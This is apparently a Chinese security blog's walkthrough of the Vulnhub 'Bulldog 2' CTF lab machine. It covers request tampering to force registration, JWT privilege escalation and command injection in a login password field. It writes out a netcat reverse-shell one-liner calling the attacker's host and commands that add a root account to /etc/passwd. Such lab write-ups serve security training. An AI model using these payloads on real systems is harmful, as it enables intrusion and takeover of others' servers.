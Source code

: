 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6uzRdCuvszJx45xna4ACkg)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **50** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/5ria5WVLahGj8W7vu6J2jzTGqRtEaL6ib9CDzENq8PCEZADfU3JXsmibNacJhY7rooNoYIpCsUytNS0k4UcSsnRfw/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/bulldog-2,246/

靶机难度：中级（CTF）

靶机发布日期：2018 年 7 月 18 日

靶机描述：

自 Bulldog Industries 遭受数次数据泄露以来已经过去了三年。在那时，他们已经恢复并重新命名为 Bulldog.social，这是一家新兴的社交媒体公司。您可以接受这一新挑战并在他们的生产 Web 服务器上扎根吗？

这是标准的启动到根。您唯一的目标是进入根目录并查看祝贺消息，该如何操作取决于您！

难度：中级，有些事情您可能从未见过。仔细考虑所有问题:)

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/XxZOJAn437TAwOeYFBI2JiamRa34iaqY1IAPG9MaXSIKgPlBicRoyoyHPr0q6YUAhLTYebc4z2qjok0r1riadSujeg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/6DdW6admPmWicucEOicwONQBeMWRA7Pq57A9xCTGbIWomiboqObS0bEetoo2qW2hHk2E5GOcuQYUqSlQT5BKsDqRQ/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUYaDTddqe2Us8ZDrjlBMxZ5dzlyOFOtLeHOvhj6YKib17EIr1M1EaP3g/640?wx_fmt=png)

直接看到了 IP：192.168.56.141   我就直接 nmap 了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUibORnRrhzB0DPBS9NJs5Xknec29H1B07TdSrqjRibFEANzc414oHHDLw/640?wx_fmt=png)

只开了 80 端口...65534 是 filtered...（好像以前做过类似的）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUnWecPjkh1JV8MkxvCQpHeNxbWj7N93TvrByoJccibzeBkeKt54jicb4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU6rt6UmVlIxNNeQeKTcvbvsJvbul6PCQCyawSElOFMmfunRvYuhkibow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU9hmrfb56Sl1b8w2HZHmmic7D4mKwTDsrc8ETFOmjVxKrI5qNucpO5Lw/640?wx_fmt=png)

有登录页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUB9GXOAds8oia4qluBpDB8UIkQkzHRIOfdiatWmtbzVVCXicLLyWiciaftWg/640?wx_fmt=png)

安全原因，不允许注册...

上面测试了普通账号密码无法登录...

dirb 和 nikto 也没发现什么有用的... 继续浏览

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU47cM7JTpiaoFibFPicLu1vt59GNMG27ErIlj8xEKoFA3EcdxPymtFYKjw/640?wx_fmt=png)

点击进入 user，发现这里面网站上每月使用量最高的用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUCc4rgmVvqopaOdRGkicVNEibV0nmrAh7AEr5llArNlSWkibQrzDlNibR5Q/640?wx_fmt=png)

前段源码发现很多 js 文件... 一个一个查看得眼花，我还是对 login 页面进行分析吧...

前面看到无法注册用户，我使用 burp suite 来分析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUiaVR2wnYmlqBCwL32cYpRr9h2iaCBrnHVeibo6waOsniaV5HX9uTGlTBfg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUaLkvqyAmnyvpiaJib2QQdpJZiaxhR3v8tB2sxviaPRNBlwS2RVGS9iaV8Ig/640?wx_fmt=png)

这边抓到了服务器提交请求的数据...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU5VTMgbLhdo3WrVYv4QsFVzqnvmTCwfGWrljv8qcq9ehb7KXm4K7YrA/640?wx_fmt=png)

发现加了 name 和 email 后还是不行...

发现这里是 authenticate，我改成注册的 register...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUnb68jHiat4ezxwsRlAcUeictTgIzCibYMrrE1OwqMJ0LGb28ibxts2ga9A/640?wx_fmt=png)

还真成功了... 说明可以注册的，登录看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUYlBkzZj5WD9tf1l0r3wK79Can9ibkEvBxHYvZdsKaDvEIAXW9iad5IMQ/640?wx_fmt=png)

我又注册了 dayutest 测试看看是否可以水平越权渗透...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUZib7ibjQbCnLuvXE2qicx3ygEhbxvCiaUFlLOXMicqySDbficJzHNIn85jMg/640?wx_fmt=png)

发现只要是存在的用户，在链接中直接修改用户名，即可直接访问进去不需要密码... 但是这没什么用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUK9GAVIvLtxqw8EU0ViciaHVg6ay0Blibhv9D7s1nf8YbYasWGDYTxnjnA/640?wx_fmt=png)

再次登录界面登录 dayu 用户重新抓包，查看到服务器回包信息...

```
{"success":true,"token":"JWT....百度JWT：JSON Web Token（JWT）
```

是一个非常轻巧的规范。这个规范允许我们使用 JWT 在用户和服务器之间传递安全可靠的信息....  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU06148GAT0YYq4Ver0ksPTrxt1nreckh2jlY8oto4UNzHCicmEeOKItA/640?wx_fmt=png)

这边知道了 jwt 的信息在下面... 分析下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU2nQYt05vdZnmD2Lwvcb4fX2rE0ZCudAL32Tr5YibbRApNwQBOl9FRNw/640?wx_fmt=png)

可以看到有个 auth_level 的参数跟着 standard_user，类似权限的意思... 前面 JS 文件我记得有很多类似的信息... 回去找下

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUsRJoJ72vv8BiaYuEYhJsW0gpNG5mIJsPaMktHMrKicpSZibDhLI5qibWKw/640?wx_fmt=png)

查看此文件的内容后，发现 master_admin_user 具有最高的 auth_level...

![](https://mmbiz.qpic.cn/mmbiz_png/6DdW6admPmWicucEOicwONQBeMWRA7Pq57A9xCTGbIWomiboqObS0bEetoo2qW2hHk2E5GOcuQYUqSlQT5BKsDqRQ/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/M39rvicGKTibrmYlY2VW5XChia77yhteBC7iarNdYSwicq64NZrCHeSZqRpsFRTZkpfgclSWaibqftONNMWLkz6QjyoQ/640?wx_fmt=png)

重新抓包...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUXn73C5lEvia8YianqicLia5ThHkMIZRkKO8z3wNMk2PZ8henY8BggRXkNA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUvpnHqfQtDgiakLib2fxiaaichunHBf5R3AuwI2MESPpkbzER0SLOFUdXgA/640?wx_fmt=png)

这里重新抓包后，读取到用户名密码后将数据包发送到 Response to this request，然后 Forward 即可出现 JWT 值....

将 standard_user 改成 master_admin_user 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUv0rcRMprBnfcMVzeZkpnvL6iaqlLbukYG4QoEFZVJCk1V4bI8RBGqPA/640?wx_fmt=png)

可以看到 yujun 获得了 admin 权限...（垂直渗透成功）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUnzcicGwIqujqtnia4M1PWV7BlrUr7DRBUaSicNbibZX3v4k6pMQEFdd3Gg/640?wx_fmt=png)

发现可以输入账号密码，继续分析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU3Za9rBVKpEX85AbGBpJB2YZ67nvNP92IPpWZFyBzuOUXo0oWFIBFQA/640?wx_fmt=png)

继续分析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUXAatW8ofJeM9Y6Yrib3ZtnYXUk2n0iayyDMg9CXpw9Z7pXREyJZHJU7Q/640?wx_fmt=png)

发送后发现，返回的是 200 OK 成功了，但是是错误的密码 false... 说明存在命令执行漏洞...

那就在密码处输入 shell 即可... 试试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUeZchgeY1dv27ic2r3Ps7qYDbIBBjTaicOA2cUPVaALLiaVfI0ghws3yjg/640?wx_fmt=png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.103 4444 >/tmp/f;   （上一张才刚用过此命令提权，嘿嘿）
```

成功获得低权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU0fGflaUKlafdDSepZEZgaK4KrxeZ4sOu4Lian8PoyR1FrG4bO6ryGYQ/640?wx_fmt=png)

```
;ping 192.168.56.103 -c 4
tcpdump -nni eth0 icmp
```

当利用 ping 测试账号的时候，无 ICMP 数据包返回，测试密码的时候，返回了 ICMP 数据包... 说明密码区域可以执行反向 shell...

然后注入个 payload 即可提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOU3f956ZZ8fcymQLKfSLyD16XPXVuaErXy1Q5W9xPaUPQpCQLnjK8Gibw/640?wx_fmt=png)

查看 passwd，权限为 777...

这里直接创建个 root 用户即可.... 前面章节也有遇到过类似的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOLtNMHTsouVs7SNv6riaibOUu6LIL6DbwDNzZQQfadDuwXLYnAXJI24iaOMhINMibREwmlOxmicicooR6w/640?wx_fmt=png)

```
perl -le 'print crypt("dayu","aa")'
echo 'dayuroot:aaP.3CTQfJaLg:0:0:dayuroot:/root:/bin/bash' >>/etc/passwd
```

可以看到写入了 dayuroot 用户，成功登陆后获得 roo 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/5ria5WVLahGj8W7vu6J2jzTGqRtEaL6ib9CDzENq8PCEZADfU3JXsmibNacJhY7rooNoYIpCsUytNS0k4UcSsnRfw/640?wx_fmt=png)

这里使用 openssl passwd -1 -salt user3/infosec （passwd) 可以生成哈希值，进行登陆...

这里熟悉命令注入攻击提权后就简单了....

由于我们已经成功得到 root 权限查看 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/XxZOJAn437TAwOeYFBI2JiamRa34iaqY1IAPG9MaXSIKgPlBicRoyoyHPr0q6YUAhLTYebc4z2qjok0r1riadSujeg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)